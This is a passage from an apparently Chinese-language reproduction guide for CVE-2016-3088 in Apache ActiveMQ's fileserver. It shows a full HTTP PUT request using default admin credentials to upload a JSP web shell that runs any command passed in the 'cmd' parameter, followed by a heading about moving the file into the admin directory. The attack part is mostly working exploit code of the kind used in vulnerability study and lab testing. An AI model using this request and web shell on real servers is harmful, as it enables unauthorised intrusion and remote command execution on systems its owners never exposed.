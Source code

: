 
### 向fileserver路径下上传一个jsp

![img.png](../.vuepress/public/images/case/CVE-2016-3088/CVE-2016-3088-upload-jsp.png)

请求如下
```
PUT /fileserver/shell.jsp HTTP/1.1
Host: localhost:8161
Authorization: Basic YWRtaW46YWRtaW4=
Content-Length: 363

<%@ page import="java.io.*"%>
<% 
    out.print("hello</br>");
    String strcmd = request.getParameter("cmd");
    String line=null;

    Process p = Runtime.getRuntime().exec(strcmd);
    BufferedReader br=new BufferedReader(new InputStreamReader(p.getInputStream()));
    while((line =br.readLine())!=null){
        out.print(line+"</br>");
    }
%>
```

### jsp文件移动到 admin目录下

![img.png](../.vuepress/public/images/case/CVE-2016-3088/CVE-2016-3088-move-jsp.png)
